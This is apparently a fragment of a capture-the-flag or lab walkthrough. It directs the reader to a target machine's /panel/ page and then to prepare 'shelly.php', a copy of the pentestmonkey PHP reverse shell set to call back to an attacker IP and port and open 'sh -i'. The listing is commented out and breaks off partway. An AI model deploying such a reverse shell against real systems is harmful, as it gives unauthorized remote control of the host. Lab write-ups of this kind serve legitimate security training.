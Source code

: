 
- ___Step 2:___ Go to <target_machine_ip>/panel/

![](Screenshot_2.png)

- ___Step 3.1.:___ Go to Reverse Shell Generator to prep webshell
- ___Step 3.2.:___ prep shelly.php

```PHP
//<?php
// // php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
// 
// set_time_limit (0);
// $VERSION = "1.0";
// $ip = '<attack_box_ip>';
// $port = <port>;
// $chunk_size = 1400;
// $write_a = null;
// $error_a = null;
// $shell = 'uname -a; w; id; sh -i';
// $daemon = 0;
// $debug = 0;
// 
// if (function_exists('pcntl_fork')) {
// 	$pid = pcntl_fork();
// 	
// 	if ($pid == -1) {
// 		printit("ERROR: Can't fork");
// 		exit(1);
```